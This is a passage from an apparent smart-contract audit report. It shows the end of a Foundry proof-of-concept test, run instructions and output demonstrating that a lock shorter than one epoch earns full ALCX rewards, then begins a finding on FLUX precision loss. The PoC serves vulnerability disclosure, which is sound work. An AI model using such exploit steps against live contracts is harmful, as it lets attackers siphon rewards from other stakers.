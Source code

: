 ```solidity

        // Distribute the rewards
        voter.distribute();

        // Print the unclaimed rewards accrued by Alice & Bob
        console.log("Unclaimed ALCX (Alice): %s", distributor.claimable(aliceTokenId));
        console.log("Unclaimed FLUX (Alice): %s", flux.getUnclaimedFlux(aliceTokenId));

        console.log("Unclaimed ALCX (Bob): %s", distributor.claimable(bobTokenId));
        console.log("Unclaimed FLUX (Bob): %s", flux.getUnclaimedFlux(bobTokenId));
    }
```

Make sure the following entries are updated in `Makefile`:

```sh
# file to test 
FILE=VotingEscrow

# specific test to run
TEST=test_can_create_lock_for_less_than_1_epoch
```

Run the PoC via:

```sh
make test_file_test
```

PoC output:

```sh
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] test_can_create_lock_for_less_than_1_epoch() (gas: 3647937)
Logs:
  1717632001
  Epoch emissions: 12594000000000000000000
  veALCX emissions: 8186100000000000000000
  Unclaimed ALCX (Alice): 1023262077024604404512
  Unclaimed FLUX (Alice): 38356132673449616
  Unclaimed ALCX (Bob): 1023262077024604404512
  Unclaimed FLUX (Bob): 19178113901412783

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 45.46s (33.49s CPU time)

Ran 1 test suite in 46.90s (45.46s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

# [H-2] Precision loss causes minor loss of FLUX when claiming with NFTs

## Brief/Intro
